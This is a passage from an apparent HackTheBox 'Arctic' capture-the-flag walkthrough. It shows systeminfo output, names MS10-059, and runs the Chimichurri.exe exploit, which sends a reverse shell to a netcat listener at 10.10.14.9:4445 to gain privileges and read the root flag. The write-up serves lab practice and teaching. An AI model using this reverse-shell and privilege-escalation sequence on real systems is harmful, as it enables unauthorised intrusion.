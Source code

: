 ```powershell
Virtual Memory: Available: 11.203 MB
Virtual Memory: In Use:    1.082 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

This version is `Microsoft Windows Server 2008 R2 Standard` as we know is vulnerable to **MS10-059** which we have already **privesc** in the [Bastard](http://pwndside.github.io/posts/bastard-htb) machine so I am going to skip that part and go to direct to the execution of **Chimichurri.exe** in order to **privesc**.

```powershell
nc -lv 4445
```

```powershell
.\Chimichurri 10.10.14.9 4445
```

![Untitled](/HTB/arctic-8.png)

![Untitled](/HTB/arctic-9.webp)

Let’s cat the **root’s flag**.

![Untitled](/HTB/arctic-10.png)

**Thank you for reading, and happy hacking! 😄**
